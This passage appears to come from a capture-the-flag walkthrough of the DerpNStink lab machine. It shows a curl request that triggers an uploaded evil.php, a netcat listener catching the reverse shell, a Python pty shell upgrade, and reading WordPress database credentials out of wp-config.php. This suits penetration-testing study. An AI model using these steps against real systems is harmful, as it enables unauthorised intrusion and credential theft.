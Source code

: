 As we see the change was successful.

![](/assets/images/derpnstink/screenshot-12.png)

Then we set up a netcat listener on the attacking machine and execute the curl request.

```console
root@kali:~$ curl derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/evil.php
```

And we have a shell, then we spawn for a pseudo TTY shell, as shown below:

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.147] 60708
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
 23:55:02 up  2:26,  0 users,  load average: 0.12, 0.07, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DeRPnStiNK:/$ hostname
hostname
DeRPnStiNK
```

After we list the MySQL credentials for the wordpress CMS.

```console
www-data@DeRPnStiNK:/var/www/html/weblog$ cat wp-config.php
...
define('DB_NAME', 'wordpress');                     
                                                    
/** MySQL database username */                 
define('DB_USER', 'root');                 
                                       
/** MySQL database password */                  
define('DB_PASSWORD', 'mysql');                  
                                            
/** MySQL hostname */                       
define('DB_HOST', 'localhost');
...
```
